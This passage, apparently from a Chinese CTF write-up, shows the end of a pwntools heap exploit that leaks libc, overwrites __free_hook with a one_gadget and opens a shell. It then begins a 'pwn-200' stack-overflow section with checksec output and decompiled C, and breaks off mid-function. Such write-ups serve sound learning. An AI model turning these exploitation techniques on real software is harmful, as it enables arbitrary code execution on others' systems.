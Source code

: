 ```py
show(0)##??
uns_bin = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))


libc.address = uns_bin - 0x3ebca0

malloc(0x10,"9999")

free(1)
free(2)

free(0)
free(9)


one_gadget = libc.address + 0x4f322

malloc(0x10,p64(libc.symbols['__free_hook']))
malloc(0x10,"1111")

malloc(0x10,p64(one_gadget))

free(1)
p.interactive()
```

https://blog.csdn.net/qq_41202237/article/details/113697892
https://bbs.pediy.com/thread-247862.htm

## pwn-200

写这题的时候有半个多月没有接触栈溢出了...算是拿这题复习一下

```bash
pluto@pluto-virtual-machine:~/Desktop$ checksec b
[*] '/home/pluto/Desktop/b'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

用ROPgadget搜索没有发现system和/bin/sh，于是猜到大概是要ret2libc

ida打开，程序很简单:

```c
int __cdecl main()
{
  int buf; // [esp+2Ch] [ebp-6Ch]
  int v2; // [esp+30h] [ebp-68h]
  int v3; // [esp+34h] [ebp-64h]
  int v4; // [esp+38h] [ebp-60h]
  int v5; // [esp+3Ch] [ebp-5Ch]
  int v6; // [esp+40h] [ebp-58h]
  int v7; // [esp+44h] [ebp-54h]

  buf = 1668048215;
  v2 = 543518063;
  v3 = 1478520692;
  v4 = 1179927364;
  v5 = 892416050;
  v6 = 663934;
  memset(&v7, 0, 0x4Cu);
  setbuf(stdout, (char *)&buf);
```